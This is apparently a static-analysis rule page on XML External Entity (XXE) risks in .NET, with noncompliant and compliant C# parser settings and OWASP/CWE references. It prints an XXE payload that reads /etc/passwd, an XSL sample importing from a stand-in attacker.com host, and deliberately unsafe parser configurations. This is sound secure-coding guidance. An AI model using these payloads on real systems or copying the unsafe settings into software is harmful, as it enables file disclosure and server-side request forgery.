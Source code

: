 
[XML specification](https://www.w3.org/TR/xml/) allows the use of entities that can be [internal](https://www.w3.org/TR/xml/#sec-internal-ent) or [external](https://www.w3.org/TR/xml/#sec-external-ent) (file system / network access ...) which could lead to vulnerabilities such as confidential file disclosures or [SSRFs](https://www.owasp.org/index.php/Server_Side_Request_Forgery).

Example in this XML document, an external entity read the /etc/passwd file:


    &lt;?xml version="1.0" encoding="utf-8"?&gt;
      &lt;!DOCTYPE test [
        &lt;!ENTITY xxe SYSTEM "file:///etc/passwd"&gt;
      ]&gt;
    &lt;note xmlns="http://www.w3schools.com" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"&gt;
      &lt;to&gt;&amp;xxe;&lt;/to&gt;
      &lt;from&gt;Jani&lt;/from&gt;
      &lt;heading&gt;Reminder&lt;/heading&gt;
      &lt;body&gt;Don't forget me this weekend!&lt;/body&gt;
    &lt;/note&gt;


In this XSL document, network access is allowed which can lead to SSRF vulnerabilities:


    &lt;?xml version="1.0" encoding="UTF-8"?&gt;
    &lt;xsl:stylesheet version="1.0" xmlns:xsl="http://www.attacker.com/evil.xsl"&gt;
      &lt;xsl:import href="http://www.attacker.com/evil.xsl"/&gt;
      &lt;xsl:include href="http://www.attacker.com/evil.xsl"/&gt;
     &lt;xsl:template match="/"&gt;
      &amp;content;
     &lt;/xsl:template&gt;
    &lt;/xsl:stylesheet&gt;


It is recommended to disable access to external entities and network access in general.

## Noncompliant Code Examples

System.Xml.XmlDocument


    // .NET Framework &lt; 4.5.2
    XmlDocument parser = new XmlDocument(); // Noncompliant: XmlDocument is not safe by default
    parser.LoadXml("xxe.xml");
    
    or
    
    // .NET Framework 4.5.2+
    XmlDocument parser = new XmlDocument();
    parser.XmlResolver = new XmlUrlResolver(); // Noncompliant: XmlDocument.XmlResolver configured with XmlUrlResolver that makes it unsafe
    parser.LoadXml("xxe.xml");


System.Xml.XmlTextReader


    // .NET Framework &lt; 4.5.2
    XmlTextReader reader = new XmlTextReader("xxe.xml"); // Noncompliant: XmlTextReady is not safe by default
    while (reader.Read())
    { ... }
    
    or
    
    // .NET Framework 4.5.2+
    XmlTextReader reader = new XmlTextReader("xxe.xml");
    reader.XmlResolver = new XmlUrlResolver(); // Noncompliant: XmlTextRead.XmlResolver configured with XmlUrlResolver that makes it unsafe
    while (reader.Read())
    { ... }


System.Xml.XmlReader


    // .NET Framework 4.5.2+
    XmlReaderSettings settings = new XmlReaderSettings();
    settings.DtdProcessing = DtdProcessing.Parse;
    settings.XmlResolver = new XmlUrlResolver();
    XmlReader reader = XmlReader.Create("xxe.xml", settings); // Noncompliant: XmlReader is safe by default and becomes unsafe if DtdProcessing = Parse and XmlResolver is not null
    while (reader.Read())
    { ... }


System.Xml.XPath.XPathDocument


    // prior to .NET 4.5.2
    XPathDocument doc = new XPathDocument("example.xml"); // Noncompliant
    XPathNavigator nav = doc.CreateNavigator();
    string xml = nav.InnerXml.ToString();


## Compliant Solution

System.Xml.XmlDocument


    XmlDocument parser = new XmlDocument();
    parser.XmlResolver = null; // Compliant: XmlResolver has been set to null
    parser.LoadXml("xxe.xml");
    
    or
    
    XmlDocument parser = new XmlDocument(); // Compliant: XmlDocument is safe by default in  .NET Framework 4.5.2+ because XmlResolver is set by default to null
    parser.LoadXml("xxe.xml");


System.Xml.XmlTextReader


    // .NET 4.5.2+
    XmlTextReader reader = new XmlTextReader("xxe.xml"); // Compliant: XmlTextReader is safe by default in  .NET Framework 4.5.2+ because XmlResolver is set by default to null
    while (reader.Read())
    { ... }
    
    // .NET 4.0 to .NET 4.5.1
    XmlTextReader reader = new XmlTextReader("xxe.xml");
    reader.DtdProcessing = DtdProcessing.Prohibit; // Compliant: XmlTextReader is safe by default in  .NET Framework 4.5.2+ because XmlResolver is set by default to null
    
    // &lt; .NET 4.0
    XmlTextReader reader = new XmlTextReader(stream);
    reader.ProhibitDtd = true; // Compliant: default is false


System.Xml.XmlReader


    XmlReader reader = XmlReader.Create("xxe.xml"); // Compliant: XmlReader is safe by default
    while (reader.Read())
    { ... }


System.Xml.XPath.XPathDocument


    // prior to .NET 4.5.2
    XmlReader reader = XmlReader.Create("example.xml");
    XPathDocument doc = new XPathDocument(reader); // Compliant: XPathDocument is safe when being given a safe XmlReader
    XPathNavigator nav = doc.CreateNavigator();
    string xml = nav.InnerXml.ToString();


## See

- [OWASP Top 10 2017 Category A4](https://www.owasp.org/index.php/Top_10-2017_A4-XML_External_Entities_%28XXE%29) - XML External Entities<br>  (XXE)
- [OWASP XXE Prevention Cheat<br>  Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html#net)
- [MITRE, CWE-611](http://cwe.mitre.org/data/definitions/611.html) - Information Exposure Through XML External Entity Reference
- [MITRE, CWE-827](http://cwe.mitre.org/data/definitions/827.html) - Improper Control of Document Type Definition

